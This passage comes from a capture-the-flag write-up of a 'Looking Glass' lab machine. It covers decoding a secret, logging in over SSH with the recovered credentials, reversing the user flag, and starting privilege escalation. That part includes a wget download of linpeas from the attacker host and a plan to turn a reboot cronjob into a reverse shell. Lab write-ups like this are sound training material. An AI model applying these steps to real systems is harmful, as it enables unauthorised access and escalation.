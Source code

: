 ```
And as in uffish thought he stood,
The Jabberwock, with eyes of flame,
Came whiffling through the tulgey wood,
And burbled as it came!

One, two! One, two! And through and through
The vorpal blade went snicker-snack!
He left it dead, and with its head
He went galumphing back.

'And hast thou slain the Jabberwock?
Come to my arms, my beamish boy!
O frabjous day! Callooh! Callay!'
He chortled in his joy.

'Twas brillig, and the slithy toves
Did gyre and gimble in the wabe;
All mimsy were the borogoves,
And the mome raths outgrabe.
Your secret is bewareTheJabberwock

```
* The secret is `bewareTheJabberwock`
	* When entering this, we get an ouput of `jabberwock:BalladTearsCertainChecking`
	* This is the ssh username and password for one user

* We can log in with `ssh jaberwock@10.10.156.153`

* `cat user.txt` gives us `}32a911966cab2d643f5d57d9e0173d56{mht`, which looks like a backwards flag
	* We can reverse that in python:

```python3
with open('user.txt') as fin:
	print(fin.read().rstrip()[::-1])
```
* The user flag is `thm{65d3710e9d75d5f346d2bac669119a23}`

# Privesc
### tweedledum
* We can use `python3 -m http.server 80` locally and `wget http://10.6.36.105/linpeas.sh` remotely to get linpeas on the machine.
	* Running it, we can see a cronjob that runs the twasBrillig.sh script on reboot as tweedledum:

```
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

* This is important because `sudo -l` shows us that we can aleady reboot:
```
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
* Thus, we can change the script to make it a reverse shell
